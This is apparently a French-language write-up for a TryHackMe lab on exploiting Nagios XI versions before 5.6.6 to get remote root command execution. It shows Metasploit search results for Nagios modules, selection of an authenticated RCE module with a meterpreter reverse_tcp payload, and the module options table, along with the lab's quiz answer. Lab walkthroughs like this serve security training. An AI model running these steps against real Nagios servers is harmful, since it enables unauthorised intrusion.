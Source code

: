 On trouve une faille de sécurité avant les version 5.6.6 qui permet d'exécuter une commande à distance avec les droit roots.   

**After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ msfconsole -q
msf6 > search nagios xi exploit

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_snmptrap_authenticated_rce              2020-10-20       excellent  Yes    Nagios XI 5.5.0-5.7.3 - Snmptrap Authenticated Remote Code Exection
   1  exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   2  exploit/linux/http/nagios_xi_chained_rce                             2016-03-06       excellent  Yes    Nagios XI Chained Remote Code Execution
   3  exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo         2018-04-17       manual     Yes    Nagios XI Chained Remote Code Execution
   4  exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   5  exploit/unix/webapp/nagios_graph_explorer                            2012-11-30       excellent  Yes    Nagios XI Network Monitor Graph Explorer Component Command Injection
   6  exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   7  exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce      2020-12-19       excellent  Yes    Nagios XI Prior to 5.8.0 - Plugins Filename Authenticated Remote Code Exection
   8  auxiliary/scanner/http/nagios_xi_scanner                                              normal     No     Nagios XI Scanner
   9  exploit/unix/webapp/nagios3_history_cgi                              2012-12-09       great      Yes    Nagios3 history.cgi Host Command Execution


Interact with a module by name or index. For example info 9, use 9 or use exploit/unix/webapp/nagios3_history_cgi

msf6 > use 6
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > 

```

La réponse du site est : exploit\/linux\/http\/nagios_xi_authenticated_rce   

C'est la même que j'utilise mais comme l'exploit à été renommé il a changé de nom.    

```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```